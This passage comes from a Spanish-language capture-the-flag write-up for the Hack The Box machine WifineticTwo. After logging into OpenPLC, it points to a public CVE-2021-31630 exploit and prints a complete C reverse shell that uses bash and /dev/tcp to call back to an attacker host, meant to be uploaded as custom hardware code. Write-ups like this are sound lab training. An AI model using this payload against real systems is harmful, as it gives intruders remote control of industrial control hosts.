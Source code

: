 ![](/assets/images/htb-writeup-wifinetictwo/Pasted image 20240604090952.png)

logrando acceso al **OpenPLC**, ya en este punto sabiendo las credenciales podría utilizar el exploit mencionado más arriba [ESTE](https://github.com/thewhiteh4t/cve-2021-31630) para de manera automatizada obtener nuestra Reverse Shell, pero yo lo haré manual...

Indagando en los distintos directorios del **OpenPLC**, descubrí qué podemos subir código en **C** personalizado en el apartado de "**HARDWARE**", y luego correrlo, primero busco una **Reverse Shell** en el lenguaje C, encontrando éste:

```bash
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

void initCustomLayer()
{
}

void updateCustomIn()
{
}

#define LHOST "10.10.x.x" //aquí la IP de tu HOST
#define LPORT "443" // Puerto en escucha

void updateCustomOut()
{
    int pipefd[2];
    pid_t pid;

    if (pipe(pipefd) == -1) {
        exit(EXIT_FAILURE);
    }

    pid = fork();
    if (pid == -1) {
        exit(EXIT_FAILURE);
    }

    if (pid == 0) {
        close(pipefd[0]);
        dup2(pipefd[1], STDOUT_FILENO);
        execl("/bin/bash", "/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/" LHOST "/" LPORT " 0>&1 &", NULL);
        exit(EXIT_FAILURE);
    } else {
        close(pipefd[1]);
        wait(NULL);
    }
}
```
